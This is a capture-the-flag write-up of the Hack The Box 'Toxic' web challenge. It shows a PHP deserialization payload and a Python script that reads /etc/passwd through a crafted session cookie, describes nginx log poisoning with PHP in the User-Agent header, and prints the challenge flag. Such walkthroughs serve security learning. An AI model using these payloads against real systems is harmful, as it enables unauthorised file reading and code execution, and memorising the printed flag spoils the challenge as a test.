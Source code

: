 ```yaml
---
title: "Toxic - HackTheBox"
description: "https://app.hackthebox.com/challenges/Toxic"
summary: "Hack The Box Web Challenge Toxic"
date: 2024-01-24
draft: false
author: "Aftab Sama" # ["Me", "You"] # multiple authors
tags: ["Web", "HackTheBox", "Easy", "CTF"]
canonicalURL: ""
showToc: true
TocOpen: false
TocSide: 'right'  # or 'left'
# weight: 1
# aliases: ["/first"]
hidemeta: false
comments: true
disableHLJS: true # to disable highlightjs
disableShare: true
hideSummary: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
# UseHugoToc: true
---
```


------------------------

### Challenge Description

Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸

### Insecure Deserialization

In the given source code we can spot that it is vulnerable to deserialization.

![image](md/5fbcaee1-b10f-4765-93ef-7a4be1f4330b.webp)

`PageModel` have magic method `__destruct()` to exploite Deserialization.

![image](md/1086d508-0033-4c6b-b6d4-3ec831a0bf87.webp)


payload= 
```
O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}
```

```python
import requests
from itsdangerous import base64_encode

a = "PageModel"
b = "/etc/passwd"
payload = 'O:'+str(len(a))+':"'+a+'":1:{s:4:"file";s:'+str(len(b))+':"'+b+'";}'
payload = base64_encode(payload).decode()
r = requests.get("http://83.136.249.57:52345/",cookies={"PHPSESSID": payload},proxies={"http":"http://127.0.0.1:8080/"})
print(r.text)
```

The flag's name is random, so we need to find an alternative way to read it.

![image](md/23c0c811-0290-4d90-bd9d-96b18d9c09ca.webp)

### PHP code Injection in log file

We can find the path of `/etc/nginx/nginx.conf` in Dockerfile.

![image](md/f401a175-f86d-4ed6-9143-77d4b12e1817.webp)

Reading this file using the deserialization payload it reveals the path to access log `/var/log/nginx/access.log`.

![image](md/76d581a6-12c0-4665-855b-3c5f1bb44d3f.webp)

By analyzing the access log, we can see that the User-agent is recorded in the log file.

![image](md/d07a5788-7e8e-4667-b447-f4b5d8036053.webp)

We can attempt to insert PHP code into this log file and then read the file to determine whether the PHP code is executed.

![image](md/a4b748d2-a890-4c19-bd1c-166ef783e385.webp)

![image](md/d598a5ab-befc-4657-8b69-fde9f91c5230.webp)

and this works. Now we can use this PHP code injection to obtain the flag.

![image](md/a0a677ec-ee03-460e-84c9-932dc009992f.webp)

![image](md/e25196d7-00c7-4300-b002-11adf36413ff.webp)

Flag: `HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}`


Happy Hacking
